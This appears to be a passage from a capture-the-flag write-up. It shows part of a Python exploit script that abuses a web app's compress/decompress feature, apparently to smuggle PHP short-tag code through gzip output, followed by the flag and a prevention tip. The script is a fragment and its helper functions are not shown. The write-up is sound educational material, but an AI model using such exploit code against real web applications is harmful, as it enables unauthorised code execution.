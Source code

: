 ```python
headers = {}

file_uri = str(sys.argv[2]).encode("utf-8")
ext = str(sys.argv[3])
print("webapp: {0}".format(str(url)))
print("file_uri: {0}".format(str(file_uri)))
print("ext: {0}".format(str(ext)))

data = {"url": file_uri, "ext": ext}

s = requests.Session()
get_user_id_cookie(s)
print("Set user_id cookie")
r = compress_request(s, cookies, headers, file_uri, ext, data)
print("Sent compress request...")
link = extract_download_link(r)
print("Decompressing file {0}".format(str(link)))
c = decompress_file(s, link)
print("Decrompressed output: \n{0}".format(str(c)))
```

## 💥 Run Exploit:

![images/Untitled%208.png](images/Untitled%208.png)

![images/Untitled%209.png](images/Untitled%209.png)

**FLAG: CSCG{I_h0pe_y0u_f0und_th3_sh0rt_tags_(btw_idea_was_from_CVE2020_11060)}**

## 🛡️ Possible Prevention:

To prevent this exploit, one should also scan the compressed `gzipped` output and take actions if something like `<?` occurs in the output. This can be lead to false positives, but a `<?` sequence inside the compressed data is without a specially crafted input very unlikely.

## 🗄️ Summary / Difficulties:
